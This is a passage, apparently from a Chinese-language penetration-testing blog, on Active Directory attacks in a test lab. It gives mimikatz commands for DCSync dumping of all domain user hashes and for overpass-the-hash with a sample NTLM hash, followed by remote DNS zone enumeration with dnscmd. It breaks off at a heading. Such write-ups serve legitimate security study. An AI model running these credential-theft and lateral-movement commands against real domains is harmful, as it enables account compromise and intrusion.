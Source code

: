 首先需要获得域管理员用户的hash，这里只能用ntlm/rc4/aes128/aes256

如果获得了域管理员用户的明文口令，可以先将明文转为ntlm，在线加密的网站：

https://md5decrypt.net/en/Ntlm/

补充：使用dcsync获得域内所有用户hash的方法

域控制器上执行mimikatz:

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.local /all /csv exit"
```

### 实际测试

测试环境的参数如下：

- 域管理员用户：Administrator
- 口令：DomainAdmin456!
- hash：A55E0720F0041193632A58E007624B40


Overpass-the-hash:


```
mimikatz.exe privilege::debug "sekurlsa::pth /user:Administrator /domain:test.com /ntlm:A55E0720F0041193632A58E007624B40"
```

这样会弹出一个cmd.exe

接着使用dnscmd远程连接进行查询：

```
Dnscmd WIN-F08C969D7FM.test.com /EnumZones
```

or

```
Dnscmd WIN-F08C969D7FM /EnumZones
```

**注：**

这里要使用FQDN或者计算机名


如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-22/4-2.png)

如果想在命令行下实现整个流程，可以采用如下方法：

新建`c:\test\1.bat`，内容如下：

```
Dnscmd WIN-F08C969D7FM.test.com /EnumZones > c:\test\out.txt
```


Overpass-the-hash:
